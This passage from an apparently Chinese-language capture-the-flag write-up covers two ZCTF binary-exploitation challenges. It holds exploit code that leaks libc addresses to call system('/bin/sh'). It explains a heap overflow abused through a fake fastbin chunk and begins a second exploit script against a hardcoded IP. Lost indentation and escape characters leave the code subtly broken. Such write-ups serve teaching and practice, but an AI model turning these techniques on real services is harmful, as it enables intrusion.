 ```
data = data.ljust(8, 'x00')
malloc_addr = l64(data)
print "malloc_addr:", hex(malloc_addr)
elf_info = ELF("./libc-2.19.so")
malloc_offset = elf_info.symbols["malloc"]
system_offset = elf_info.symbols["system"]
libc_base = malloc_addr - malloc_offset
system_addr = libc_base + system_offset
content = "a" * 16 + l64(system_addr)
print "system_addr:", hex(system_addr)
edit_note(io, "", content)
io.read_until("option---&gt;&gt;n")
io.writeline("/bin/sh")
io.interact()
io = get_io(target)
pwn(io)
```



结果:

[![](https://p2.ssl.qhimg.com/t017f00741ac2521de7.png)](https://p2.ssl.qhimg.com/t017f00741ac2521de7.png)

flag: ZCTF`{`3n@B1e_Nx_IS_n0t_3norrugH!!`}`

note2(pwn400):

这道题也是菜单式的形式,主要问题在于edit的时候,append可以越界,如下图:

[![](https://p1.ssl.qhimg.com/t01d546b6394e9c80de.png)](https://p1.ssl.qhimg.com/t01d546b6394e9c80de.png)

如果size开始为0,那么size – strlen(dest) + 14 &lt;= 14 了,所以最后strncat的时候,可以无限附加,覆盖下个堆块,当size为0的时候,默认会分配的堆块大小为0x20,由于每个堆块的大小可以自己设 置大小,所以这里采用fastbin(堆块大小为0x20~0x80),由于可以覆盖后面的堆块,所以可以伪装假堆块在name中,然后对其进行free,再次申请的时候,就可以得到该地址,从而改写全局指针,如下:

[![](https://p1.ssl.qhimg.com/t01a501eb2ad6d62ca1.png)](https://p1.ssl.qhimg.com/t01a501eb2ad6d62ca1.png)

最终利用代码如下:



```
__author__ = "pxx"
from zio import *
from pwn import *
#ip = 1.192.225.129
#target = "./note2"
target = ("115.28.27.103", 9002)
def get_io(target):
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "blue")
io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
return  io 
def new_note(io, length_t, content_t):
io.read_until("option---&gt;&gt;n")
io.writeline("1")
io.read_until("content:(less than 128)n")
io.writeline(str(length_t))
io.read_until("content:n")
io.writeline(content_t)
def show_note(io, id_t):
io.read_until("option---&gt;&gt;n")
io.writeline("2")
io.read_until("id of the note:n")
io.writeline(str(id_t))
```